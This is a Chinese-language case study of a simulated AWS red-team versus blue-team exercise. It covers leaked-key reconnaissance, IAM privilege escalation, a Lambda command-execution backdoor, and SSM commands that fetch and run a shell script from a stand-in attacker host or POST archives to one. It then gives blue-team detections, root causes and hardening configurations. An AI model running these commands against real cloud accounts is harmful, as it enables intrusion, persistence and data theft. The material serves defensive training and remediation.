





## 案例四：云环境红蓝对抗演练

### 案例概述

随着企业业务全面上云，云环境已成为攻防对抗的主战场。与传统数据中心不同，云环境具有共享责任模型、动态资产、API驱动管理等特征，使得攻防逻辑发生根本性变化——攻击面从网络端口扩展到了IAM策略、云服务配置、代码仓库中的密钥泄露等多个维度。

本案例模拟一家中型互联网企业（约800人，核心业务全面部署在AWS），红蓝双方围绕云环境展开为期14天的实战对抗。红队目标是从互联网外部突破到AWS控制台或获取IAM凭证，最终访问S3敏感数据和EC2实例；蓝队目标是检测、遏制并响应所有攻击行为。

### 环境架构与攻击面分析

#### 目标环境拓扑



#### 共享责任模型下的攻击面

云环境的安全遵循共享责任模型，但企业往往对自身责任边界认识不清：

| 责任层 | AWS负责（云本身） | 企业负责（云中内容） |
|--------|-------------------|----------------------|
| 数据 | 存储基础设施加密 | 数据分类、加密、访问控制 |
| 身份与访问 | IAM基础设施 | IAM策略配置、MFA启用、密钥轮换 |
| 应用 | Lambda运行时安全 | 代码安全、依赖漏洞 |
| 网络 | 基础设施DDoS防护 | VPC配置、安全组、NACL |
| 运计 | 数据中心物理安全 | 日志审计、合规监控 |

**关键认知误区**：多数企业认为"云是安全的"而忽视了自身在IAM、网络配置、数据保护方面的责任。本次演练发现，该企业的核心风险集中在：

1. **IAM权限膨胀**：开发者账户拥有超出工作需要的权限
2. **密钥管理混乱**：AWS凭证散落在代码仓库、配置文件、CI/CD管道中
3. **日志覆盖不全**：CloudTrail仅在us-east-1区域启用，遗漏了其他活跃区域
4. **S3存储桶配置不一致**：部分存储桶未启用访问日志和服务器端加密

---

### 红队攻击路径

#### 阶段一：侦察与暴露面发现（第1-3天）

红队首先通过开源情报（OSINT）全面收集目标的云环境信息：

**1. 云资产测绘**

使用CloudMapper对目标AWS账户进行外部可见性评估。CloudMapper通过分析公开的S3存储桶、EC2实例、CloudFront分发等资源，绘制出云环境的暴露面地图。

```bash
# 使用CloudMapper枚举公开的S3存储桶
python cloudmapper.py collect --account <target-account-id>
python cloudmapper.py visualize

# 通过DNS枚举发现S3存储桶命名模式
# S3存储桶名称格式: <bucket-name>.s3.amazonaws.com
# 通过子域名枚举发现:
#   data-backup.company.com → S3存储桶 data-backup
#   assets.company.com → S3存储桶 company-assets
#   dev-uploads.company.com → S3存储桶 dev-uploads
```

**2. Shodan/Censys搜索暴露资源**

```bash
# 搜索暴露的EC2实例
# Shodan搜索语法: org:"Target Company" cloud.aws.region:us-east-1
# 发现多个EC2实例暴露了SSH(22)、RDP(3389)端口
# 发现一个Elasticsearch实例(9200)未设置认证

# Censys搜索暴露的云资源
censys search "services.port=443 AND autonomous_system.organization=TargetCompany"
```

**3. GitHub密钥泄露搜索**

这是本次演练的突破口。红队使用GitHub高级搜索和专用工具扫描泄露的AWS凭证：

```bash
# GitHub搜索语法
# 搜索泄露的AWS Access Key
site:github.com "AKIA" "TargetCompany"

# 使用 trufflehog 扫描目标组织的公开仓库
trufflehog github --org=target-company --only-verified

# 使用 git-all-secrets 扫描
git-all-secrets --url https://github.com/target-company --all-repos

# 典型发现：
# .env文件: AWS_ACCESS_KEY_ID=YOUR_AWS_KEY_ID
# .env文件: AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG...
# docker-compose.yml 中的 AWS 凭证
# Terraform 配置中的 provider "aws" { access_key = "..." }
```

**4. 云配置错误扫描**

```bash
# 使用 ScoutSuite 扫描AWS配置安全态势
scout aws --profile target-account --report-dir ./report

# 关键发现：
# - S3存储桶 "data-backup" 允许公开读取 (GetBucketAcl: AllUsers)
# - IAM用户 "dev-user-03" 附加了AdministratorAccess策略
# - CloudTrail在 us-west-2 区域未启用
# - 安全组 sg-xxx 允许 0.0.0.0/0 访问 3306(MySQL)
```



#### 阶段二：凭证利用与横向移动（第4-7天）

使用从GitHub获取的泄露IAM凭证，红队展开深度攻击：

**1. 凭证验证与权限评估**

```bash
# 首先验证凭证有效性
aws sts get-caller-identity \
    --access-key-id YOUR_AWS_KEY_ID \
    --secret-access-key YOUR_AWS_SECRET_KEY

# 输出：
# {
#     "UserId": "AIDAXXXXXXXXXXXXXXXXX",
#     "Account": "123456789012",
#     "Arn": "arn:aws:iam::123456789012:user/dev-user-03"
# }

# 枚举该用户的所有权限
aws iam list-attached-user-policies --user-name dev-user-03
aws iam list-user-policies --user-name dev-user-03
aws iam list-groups-for-user --user-name dev-user-03
aws iam simulate-principal-policy \
    --policy-source-arn arn:aws:iam::123456789012:user/dev-user-03 \
    --action-names s3:GetObject s3:PutObject iam:CreateUser ec2:RunInstances
```

**2. S3数据访问与横向信息收集**

```bash
# 列举所有可访问的S3存储桶
aws s3 ls

# 发现敏感存储桶并下载数据
aws s3 ls s3://data-backup/
aws s3 cp s3://data-backup/customer-data.csv ./
aws s3 cp s3://data-backup/database-backup.sql.gz ./

# 从S3数据中发现数据库连接字符串和内部IP地址
# customer-data.csv 包含明文的数据库凭证
# 用于下一步横向移动

# 通过IAM角色链获取更高权限
# 发现EC2实例附加了角色，该角色可被利用
aws sts assume-role \
    --role-arn arn:aws:iam::123456789012:role/ec2-full-access \
    --role-session-name red-team-session
```

**3. EC2实例入侵与提权**

```bash
# 枚举EC2实例
aws ec2 describe-instances \
    --query 'Reservations[*].Instances[*].[InstanceId,State,PublicIpAddress,Tags[?Key==`Name`].Value|[0]]' \
    --output table

# 通过Systems Manager（SSM）在目标实例上执行命令
# 前提：实例已注册到SSM且泄露的凭证有权限
aws ssm send-command \
    --instance-ids i-0abc123def456789 \
    --document-name "AWS-RunShellScript" \
    --parameters 'commands=["id && whoami && cat /etc/passwd"]'

# 通过SSM建立持久化shell
aws ssm send-command \
    --instance-ids i-0abc123def456789 \
    --document-name "AWS-RunShellScript" \
    --parameters 'commands=["curl -o /tmp/shell http://attacker-c2.com/shell.sh && chmod +x /tmp/shell && /tmp/shell"]'

# 利用实例元数据服务获取角色临时凭证
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-full-access-role
# 返回临时凭证，权限比泄露的dev-user更大
```

**4. IAM提权攻击**

```bash
# 检查是否可以创建新用户并授予权限
aws iam create-user --user-name red-team-backdoor
aws iam attach-user-policy \
    --user-name red-team-backdoor \
    --policy-arn arn:aws:iam::aws:policy/PowerUserAccess
aws iam create-access-key --user-name red-team-backdoor

# 利用已有的高权限角色创建更隐蔽的后门
# 创建一个具有Lambda执行权限的IAM角色
aws iam create-role \
    --role-name DataProcessor \
    --assume-role-policy-document file://trust-policy.json

# 附加管理员策略
aws iam attach-role-policy \
    --role-name DataProcessor \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

#### 阶段三：持久化与数据渗出（第8-12天）

**1. Lambda后门部署**

```bash
# 创建Lambda后门函数，用于远程命令执行
cat > lambda_function.py << 'EOF'
import boto3
import json
import subprocess

def lambda_handler(event, context):
    """C2 Lambda后门 - 接收指令并执行"""
    if event.get('command'):
        result = subprocess.run(
            event['command'],
            shell=True,
            capture_output=True,
            text=True,
            timeout=30
        )
        return {
            'statusCode': 200,
            'body': json.dumps({
                'stdout': result.stdout,
                'stderr': result.stderr,
                'returncode': result.returncode
            })
        }
    return {'statusCode': 200, 'body': 'alive'}
EOF

zip backdoor.zip lambda_function.py

aws lambda create-function \
    --function-name data-processor \
    --runtime python3.9 \
    --handler lambda_function.lambda_handler \
    --role arn:aws:iam::123456789012:role/DataProcessor \
    --code fileb://backdoor.zip \
    --timeout 30 \
    --memory-size 128

# 设置触发器，伪装为合法的S3事件处理
aws lambda create-event-source-mapping \
    --function-name data-processor \
    --event-source-arn arn:aws:s3:::data-backup \
    --batch-size 1
```

**2. CloudWatch日志注入**

```bash
# 利用CloudWatch Logs作为隐蔽的C2通信通道
# 将恶意指令写入日志，Lambda从日志中读取并执行

# 创建日志组用于C2通信
aws logs create-log-group --log-group-name /aws/c2/channel

# 在目标实例上写入指令到日志
aws logs put-log-events \
    --log-group-name /aws/c2/channel \
    --log-stream-name instructions \
    --log-events timestamp=$(date +%s000),message='{"cmd":"curl attacker.com/payload.sh | bash"}'

# Lambda定期检查日志获取指令
```

**3. 大规模数据渗出**

```bash
# 方法一：S3同步下载（最直接）
aws s3 sync s3://data-backup/ ./exfiltrated-data/ \
    --exclude "*.log" \
    --exclude "*.tmp"

# 方法二：通过EC2实例中转（绕过直接访问限制）
# 在EC2上启动HTTP服务器，数据通过EC2中转
aws ssm send-command \
    --instance-ids i-0abc123def456789 \
    --document-name "AWS-RunShellScript" \
    --parameters 'commands=[
        "cd /var/log && tar czf /tmp/logs.tar.gz .",
        "curl -X POST -F file=@/tmp/logs.tar.gz http://attacker.com/upload"
    ]'

# 方法三：利用EC2快照窃取EBS卷数据
aws ec2 create-snapshot \
    --volume-id vol-0abc123def456789 \
    --description "backup-$(date +%Y%m%d)"

# 等待快照完成
aws ec2 describe-snapshots \
    --filters Name=description,Values="backup-*" \
    --query 'Snapshots[*].[SnapshotId,State,StartTime]' \
    --output table

# 将快照共享给攻击者控制的AWS账户
aws ec2 modify-snapshot-attribute \
    --snapshot-id snap-0abc123def456789 \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```



---

### 蓝队检测与响应

#### 检测能力矩阵

蓝队部署了多层检测体系，但各层的检测效果存在显著差异：

| 检测层级 | 工具/服务 | 检测能力 | 本次演练效果 |
|----------|-----------|----------|-------------|
| API调用审计 | CloudTrail | 记录所有AWS API调用 | 检测到异常的IAM创建用户操作（阶段三） |
| 威胁检测 | GuardDuty | 基于ML的异常行为检测 | 检测到InstanceCredentialExfiltration告警 |
| 网络流量 | VPC Flow Logs | 记录VPC内网络流量 | 发现异常出站连接到已知C2 IP |
| 配置审计 | AWS Config | 资源配置合规检查 | 发现S3存储桶公开访问配置变更 |
| 密钥泄露 | 无（缺失） | — | 未能检测到GitHub上的密钥泄露 |
| 行为分析 | 无（缺失） | — | 未能识别初期的权限枚举行为 |

#### 详细检测过程

**成功检测的攻击行为：**

**1. GuardDuty检测到实例凭证窃取（阶段二末期）**

GuardDuty检测到EC2实例的临时凭证被用于从非EC2环境调用API，触发了 `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS` 告警：

```json
{
    "type": "UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration",
    "severity": 8,
    "title": "Instance credential泄露检测",
    "description": "EC2实例 i-0abc123def456789 的凭证被用于从非AWS IP地址调用API",
    "sourceIp": "203.0.113.42",
    "instanceId": "i-0abc123def456789"
}
```

**2. CloudTrail检测到异常IAM操作（阶段三）**

当红队尝试创建新IAM用户时，CloudTrail记录了该操作，蓝队SOC团队收到告警：

```text
时间: 2024-XX-XX 14:23:17 UTC
事件: CreateUser
用户: dev-user-03
操作: 创建用户 red-team-backdoor
附加策略: AdministratorAccess
严重级别: 高（触发了预设的IAM变更告警规则）
```

**3. VPC Flow Logs关联分析（阶段三）**

蓝队分析师通过VPC Flow Logs发现EC2实例与外部IP建立了异常连接：

```text
版本 | 源地址 | 目标地址 | 源端口 | 目标端口 | 协议 | 动作 | 流量
2    | 10.0.1.45 | 203.0.113.42 | 49832 | 443 | TCP | ACCEPT | 2048
2    | 10.0.1.45 | 203.0.113.42 | 49833 | 80 | TCP | ACCEPT | 1024
```

**未被检测到的关键攻击行为：**

1. **GitHub密钥泄露**：蓝队完全没有密钥泄露监控能力。泄露的凭证已在GitHub上公开存在数周，期间无人察觉
2. **初期权限枚举**：红队在阶段二进行的IAM权限枚举（`list-attached-user-policies`、`list-user-policies`等）属于正常API调用，与开发者的日常操作模式高度相似，SIEM系统未能区分恶意枚举与合法操作
3. **S3数据访问**：`s3:GetObject` 调用被混入正常的应用数据访问流中，未触发异常告警
4. **SSM命令执行**：通过SSM执行的命令伪装为运维操作，CloudTrail中的记录被淹没在大量合法SSM调用中

#### 蓝队响应流程

当检测到告警后，蓝队的响应流程如下：



---

### 关键发现与根因分析

#### 问题一：IAM权限过于宽松

**现象**：`dev-user-03` 拥有 `AdministratorAccess` 策略，远超开发者日常工作需要。

**根因**：
- 企业未实施最小权限原则（Least Privilege），开发者账户权限分配粗放
- 缺乏定期权限审计机制，权限只增不减
- IAM权限边界（Permission Boundary）未启用

**影响**：一旦任何开发者的凭证泄露，攻击者可获得整个AWS账户的完全控制权。

**量化风险**：该账户可调用超过200个AWS API操作，包括创建用户、修改策略、删除资源等所有管理操作。

#### 问题二：密钥泄露监控缺失

**现象**：GitHub上公开的AWS凭证存在超过3周未被发现。

**根因**：
- 未部署任何密钥泄露检测工具（如GitGuardian、TruffleHog）
- 开发人员安全意识不足，将凭证提交到代码仓库
- 缺乏预提交钩子（pre-commit hooks）阻止密钥提交

**影响**：攻击者可利用泄露的凭证在企业不知情的情况下访问云资源，且时间越长，可收集的信息越多。

#### 问题三：CloudTrail覆盖不全

**现象**：CloudTrail仅在 us-east-1 区域启用，其他4个活跃区域的API调用未被记录。

**根因**：
- 初始部署时仅配置了默认区域
- 后续新增区域时未同步启用CloudTrail
- 未使用组织级CloudTrail（Organization Trail）统一管理

**影响**：攻击者可在未启用CloudTrail的区域执行操作，完全避开审计。

#### 问题四：S3存储桶配置不一致

**现象**：17个S3存储桶中，有5个未启用服务器端加密，3个允许公开访问。

**根因**：
- 不同团队各自创建存储桶，配置标准不统一
- 缺乏全局性的S3安全基线策略
- AWS Config规则未强制执行加密和访问控制要求

**影响**：存储敏感数据的存储桶可能被公开访问或在传输过程中未加密。

---

### 红队技术深度解析

#### 云环境特有的攻击向量

与传统环境相比，云环境提供了多个独特的攻击向量：

| 攻击向量 | 传统环境 | 云环境 | 危险程度 |
|----------|----------|--------|----------|
| 密钥泄露 | 难以从代码中提取 | Git搜索、配置文件、元数据 | 极高 |
| 实例元数据 | 无 | IMDSv1可被SSRF利用获取角色凭证 | 高 |
| IAM角色链 | 无 | 可通过AssumeRole获取更高权限 | 高 |
| 快照窃取 | 物理介质窃取 | 快照共享给外部账户 | 中 |
| Lambda后门 | 无 | 无服务器持久化，难以检测 | 高 |
| CloudWatch滥用 | 无 | 日志通道作为隐蔽C2 | 中 |

#### IAM角色链攻击详解

IAM角色链攻击是云环境中最具威胁的横向移动技术之一：

```text
泄露的凭证 (dev-user-03)
    ↓ AssumeRole
EC2实例角色 (ec2-full-access)
    ↓ 实例元数据获取临时凭证
Lambda执行角色 (lambda-exec-role)
    ↓ 创建新的Lambda函数
管理员角色 (AdministratorAccess)
    ↓ 完全控制AWS账户
```

每个环节的权限都在递增，最终攻击者可获得账户级别的完全控制权。这种攻击之所以难以检测，是因为每次AssumeRole操作都是合法的AWS API调用，除非有明确的策略限制（如SCP条件约束），否则不会触发告警。

#### 高级持久化技术

红队使用了多种云环境特有的持久化技术：

1. **Lambda后门**：部署Lambda函数作为C2通道，利用CloudWatch Logs或DynamoDB作为指令队列，实现无服务器的隐蔽通信
2. **IAM后门用户**：创建具有特定权限的IAM用户，使用不常见的用户名和描述信息，混入大量合法用户中
3. **EC2启动模板**：修改Auto Scaling的启动模板，确保新启动的实例自动包含后门脚本
4. **Route 53 DNS隧道**：利用DNS查询作为隐蔽的C2通信通道，通过TXT记录传递指令和数据

---

### 蓝队防御体系构建

#### 纵深防御架构



#### 防御措施详解

**1. IAM安全加固**

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:PutObject"
            ],
            "Resource": "arn:aws:s3:::data-bucket/*",
            "Condition": {
                "Bool": {
                    "aws:SecureTransport": "true"
                },
                "IpAddress": {
                    "aws:SourceIp": "10.0.0.0/8"
                }
            }
        }
    ]
}
```

**实施要点**：
- 为每个团队成员创建独立的IAM用户，禁止共享账户
- 启用权限边界，限制任何角色/用户可获得的最大权限
- 实施条件键（Condition Keys）限制访问来源IP、VPC、时间等
- 每季度进行权限审计，移除不必要的权限

**2. CloudTrail全区域覆盖**

```bash
# 创建组织级CloudTrail
aws cloudtrail create-trail \
    --name org-security-trail \
    --s3-bucket-name org-cloudtrail-logs-xxx \
    --is-multi-region-trail \
    --is-organization-trail \
    --enable-log-file-validation

aws cloudtrail start-logging --name org-security-trail

# 创建告警规则
aws cloudwatch put-metric-alarm \
    --alarm-name iam-policy-change \
    --metric-name IAMPolicyEventCount \
    --namespace CloudTrailMetrics \
    --statistic Sum \
    --period 300 \
    --evaluation-periods 1 \
    --threshold 1 \
    --comparison-operator GreaterThanOrEqualToThreshold \
    --alarm-actions arn:aws:sns:us-east-1:123456789012:security-alerts
```

**3. 密钥泄露监控**

推荐的密钥泄露监控工具链：

| 工具 | 类型 | 功能 | 集成方式 |
|------|------|------|----------|
| GitGuardian | SaaS | 实时监控GitHub/GitLab密钥泄露 | GitHub App + Webhook |
| TruffleHog | 开源 | 扫描Git仓库历史中的密钥 | CI/CD集成 |
| detect-secrets | 开源 | 预提交钩子阻止密钥入库 | pre-commit hook |
| AWS Secrets Manager | 云服务 | 集中管理密钥，自动轮换 | SDK集成 |

**4. S3安全基线策略**

使用AWS Config规则强制执行S3安全配置：

```json
{
    "ConfigRuleName": "s3-bucket-public-read-prohibited",
    "Source": {
        "Owner": "AWS",
        "SourceIdentifier": "S3_BUCKET_PUBLIC_READ_PROHIBITED"
    }
},
{
    "ConfigRuleName": "s3-bucket-server-side-encryption-enabled",
    "Source": {
        "Owner": "AWS",
        "SourceIdentifier": "S3_BUCKET_SERVER_SIDE_ENCRYPTION_ENABLED"
    }
},
{
    "ConfigRuleName": "s3-bucket-ssl-requests-only",
    "Source": {
        "Owner": "AWS",
        "SourceIdentifier": "S3_BUCKET_SSL_REQUESTS_ONLY"
    }
}
```

---

### 演练成果与量化数据

#### 攻击指标（基于本次演练）

| 指标 | 数值 | 说明 |
|------|------|------|
| 演练总天数 | 14天 | 从侦察到数据渗出 |
| 发现泄露凭证时间 | 2天 | GitHub搜索阶段 |
| 凭证利用到数据获取时间 | 4天 | 从权限枚举到S3数据下载 |
| 持久化建立时间 | 3天 | Lambda后门+CloudWatch C2 |
| 蓝队检测响应时间 | 约36小时 | 从GuardDuty告警到事件响应完成 |
| 未被检测的攻击阶段 | 2个 | 密钥泄露+初期权限枚举 |
| 涉及的AWS服务数 | 12个 | IAM、EC2、S3、Lambda、SSM等 |
| 最终获取的数据量 | 2.3GB | S3数据+EC2日志+快照数据 |

#### 蓝队检测率

```text
攻击行为总数:        18个
成功检测:            11个 (61%)
漏检:                 7个 (39%)

漏检行为分类:
- 密钥泄露相关:     2个 (无监控)
- 合法API伪装:      3个 (权限枚举、S3访问)
- 日志淹没型:       2个 (SSM命令、CloudWatch注入)
```

---

### 常见误区与纠正

| 误区 | 现实 | 纠正方法 |
|------|------|----------|
| "使用了MFA就安全了" | MFA只能保护Console登录，API调用不经过MFA | 结合权限边界+条件键限制API调用 |
| "CloudTrail记录了一切" | 默认只记录控制面数据面操作需VPC Flow Logs | 启用全区域CloudTrail+VPC Flow Logs+S3访问日志 |
| "IAM用户权限合理" | 开发者通常拥有远超需要的权限 | 实施最小权限+定期权限审计+权限边界 |
| "Lambda很安全" | Lambda可作为持久化后门，且难以从外部检测 | 监控Lambda函数创建/修改事件+定期审计 |
| "S3存储桶默认安全" | 新创建的存储桶安全配置可能过于宽松 | 使用S3控制器+Config规则强制安全基线 |
| "云厂商会帮我处理安全" | 共享责任模型下，云中内容安全是企业责任 | 明确共享责任边界，主动管理云内安全 |

---

### 进阶内容：高级云安全攻防技术

#### 攻击方进阶

**1. 混合云横向移动**

在混合云环境中，攻击者可从AWS突破到本地数据中心：
- 利用AWS Direct Connect或VPN连接作为跳板
- 通过AWS Directory Service获取Active Directory凭证
- 利用混合身份管理（如AWS AD Connector）的弱点

**2. 多账户攻击**

大型企业通常使用多个AWS账户（通过AWS Organizations管理）：
- 通过跨账户角色（Cross-Account Role）从一个账户跳到另一个账户
- 利用Organizational Unit（OU）级别的权限配置错误
- 通过Consolidated Billing关联发现其他账户

**3. 容器环境攻击**

如果企业使用ECS/EKS：
- 利用容器逃逸获取主机权限
- 通过容器内的环境变量获取数据库凭证
- 利用Kubernetes RBAC配置错误获取集群管理员权限

#### 防御方进阶

**1. 云原生检测工程**

```bash
# 使用Amazon Detective进行高级威胁分析
# 将GuardDuty发现关联到攻击链
aws detective create-graph --tags Purpose=threat-analysis

# 部署自定义检测规则
# 检测异常的AssumeRole调用模式
aws events put-rule \
    --name abnormal-assume-role \
    --event-pattern '{
        "source": ["aws.iam"],
        "detail-type": ["AWS API Call via CloudTrail"],
        "detail": {
            "eventSource": ["sts.amazonaws.com"],
            "eventName": ["AssumeRole"]
        }
    }'
```

**2. 基础设施即代码（IaC）安全**

```hcl
# Terraform安全配置示例
resource "aws_s3_bucket" "secure_bucket" {
  bucket = "secure-data-bucket"

  # 启用版本控制
  versioning {
    enabled = true
  }

  # 启用服务器端加密
  server_side_encryption_configuration {
    rule {
      apply_server_side_encryption_by_default {
        sse_algorithm = "aws:kms"
      }
    }
  }

  # 启用访问日志
  logging {
    target_bucket = aws_s3_bucket.log_bucket.id
    target_prefix = "access-logs/"
  }

  # 阻止公开访问
  tags = {
    Environment = "production"
    ManagedBy   = "terraform"
  }
}

resource "aws_s3_bucket_public_access_block" "secure_bucket_pab" {
  bucket = aws_s3_bucket.secure_bucket.id

  block_public_acls       = true
  block_public_policy     = true
  ignore_public_acls      = true
  restrict_public_buckets = true
}
```

**3. 云安全态势管理（CSPM）**

部署全面的CSPM解决方案，实现：
- 持续监控所有云资源的配置合规性
- 自动修复不安全的配置
- 生成合规报告（SOC 2、ISO 27001、PCI DSS等）
- 集成到CI/CD管道，实现安全左移

---

### 总结与经验教训

本次云环境红蓝对抗演练揭示了云安全的核心挑战：**攻击面从网络层扩展到了身份、配置和数据层**。传统基于网络边界的安全模型在云环境中已不再适用。

**三大核心教训**：

1. **身份是新的边界**：在云环境中，IAM策略就是安全边界。一个权限过大的IAM用户泄露，等同于整个云账户沦陷。必须实施最小权限原则，使用权限边界限制最大权限范围。

2. **密钥管理是生命线**：代码仓库中的密钥泄露是最常见、最致命的云安全事件。必须建立从预提交钩子到运行时监控的完整密钥管理体系。

3. **检测能力决定响应速度**：云环境提供了丰富的审计日志（CloudTrail、VPC Flow Logs、S3访问日志等），但只有正确配置和关联分析才能发挥价值。全区域覆盖、跨服务关联、自动化告警是检测体系的三大支柱。

**改进优先级排序**：

| 优先级 | 改进措施 | 实施难度 | 防护效果 |
|--------|----------|----------|----------|
| P0 | 部署密钥泄露监控 | 低 | 高 |
| P0 | IAM最小权限+权限边界 | 中 | 极高 |
| P1 | CloudTrail全区域覆盖 | 低 | 高 |
| P1 | S3安全基线自动化 | 低 | 高 |
| P2 | GuardDuty自定义告警规则 | 中 | 中 |
| P2 | CSPM平台部署 | 高 | 高 |
| P3 | 混合云安全架构 | 高 | 中 |

---

***